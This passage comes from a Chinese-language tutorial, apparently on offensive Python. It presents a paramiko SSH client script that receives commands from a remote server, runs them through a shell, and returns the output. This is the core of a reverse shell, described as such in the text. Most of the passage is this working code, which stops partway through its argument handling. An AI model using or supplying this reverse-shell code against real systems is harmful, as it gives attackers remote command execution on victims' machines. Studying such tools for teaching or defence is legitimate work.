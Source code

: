 ```python
```



### SSH客户端

得到我们的反弹shell的最后一个步骤就是使得SSH客户端可以接收来自服务器端的命令。

我们将要调整原来的客户端脚本以接收命令。我们所需要做的就是在会话中添加一个循环：

```python
import paramiko
import sys
import getopt
import subprocess

def usage():
    print "Usage: ssh_client.py  <IP> -p <PORT> -u <USER> -c <COMMAND> -a <PASSWORD>"
    print "  -a                  password authentication"
    print "  -p                  specify the port"
    print "  -u                  specify the username"
    print
    print "Examples:"
    print "ssh_client.py localhost -u buffy -p 22 -a killvampires"
    sys.exit()

def ssh_client(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(ip, port=port, username=user, password=passwd)
    ssh_session = client.get_transport().open_session()
    if ssh_session.active:
        print ssh_session.recv(1024)
        while 1:
            command = ssh_session.recv(1024)
            try:
                cmd_output = subprocess.check_output(command, shell=True)
                ssh_session.send(cmd_output)
            except Exception, e:
                ssh_session.send(str(e))
        client.close()

def main():
    if not len(sys.argv[1:]):
        usage()
    IP = '0.0.0.0'
    USER = ''
    PASSWORD = ''
    PORT = 0
    try:
        opts = getopt.getopt(sys.argv[2:],"p:u:a:", \
            ["PORT", "USER", "PASSWORD"])[0]
    except getopt.GetoptError as err:
        print str(err)
        usage()
    IP = sys.argv[1]
    print "[*] Initializing connection to " + IP
    for t in opts:
        if t[0] in ('-a'):
            PASSWORD = t[1]
        elif t[0] in ('-p'):
            PORT = int(t[1])
        elif t[0] in ('-u'):
            USER = t[1]
        else:
```